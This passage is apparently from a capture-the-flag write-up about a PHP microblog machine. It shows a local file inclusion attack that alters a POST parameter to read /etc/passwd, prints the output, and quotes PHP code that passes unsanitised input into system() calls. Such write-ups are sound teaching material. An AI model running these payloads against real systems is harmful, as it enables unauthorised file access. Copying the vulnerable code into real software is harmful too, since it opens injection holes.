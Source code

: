 -   This makes **LFI (local file inclusion)** possible, but only if we do not have write access to the specified file, as we would otherwise overwrite it. The POST request after adding a new text field on the blog can be intercepted and manipulated with burpsuite. We can get the contents of the `/etc/passwd` by changing the POST parameters as follows:
    ```
    id=/etc/passwd&txt=test
    ```
    - <details>
        <summary>contents of <code>/etc/passwd</code></summary>

        ```    
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
        systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
        systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
        systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
        systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
        cooper:x:1000:1000::/home/cooper:/bin/bash
        redis:x:103:33::/var/lib/redis:/usr/sbin/nologin
        git:x:104:111:Git Version Control,,,:/home/git:/bin/bash
        messagebus:x:105:112::/nonexistent:/usr/sbin/nologin
        sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
        _laurel:x:997:997::/var/log/laurel:/bin/false
        ```
        </details>
- if we do have write permissions, we can also use this to create new files
- The code shows that there are additional functions for so-called pro accounts. An additional `/uploads` directory is created for a blog of a pro user account, in which pro users are granted write permissions:
    ```php
    function provisionProUser() {
        if(isPro() === "true") {
            $blogName = trim(urldecode(getBlogName()));
            system("chmod +w /var/www/microblog/" . $blogName);
            system("chmod +w /var/www/microblog/" . $blogName . "/edit");
            system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
            system("mkdir /var/www/microblog/" . $blogName . "/uploads && **chmod 700 /var/www/microblog/" . $blogName . "/uploads**");
            system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
        }
        return;
    }
    ```
- we can use the LFI vulnerability to retrieve the nginx configuration by setting the `id` parameter to `/etc/nginx/sites-enabled/default`
    - <details>
